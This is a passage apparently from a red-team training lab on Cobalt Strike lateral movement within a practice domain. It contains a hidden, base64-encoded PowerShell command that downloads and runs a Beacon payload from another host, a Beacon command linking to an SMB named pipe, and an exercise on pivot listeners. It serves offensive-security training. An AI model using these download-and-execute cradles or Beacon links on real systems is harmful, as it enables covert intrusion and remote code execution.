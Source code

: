OR

```
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
```

You can then link to the Beacon.

```
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

What payload would you use if port 445 was closed?  Experiment with using the pivot listener here instead of SMB.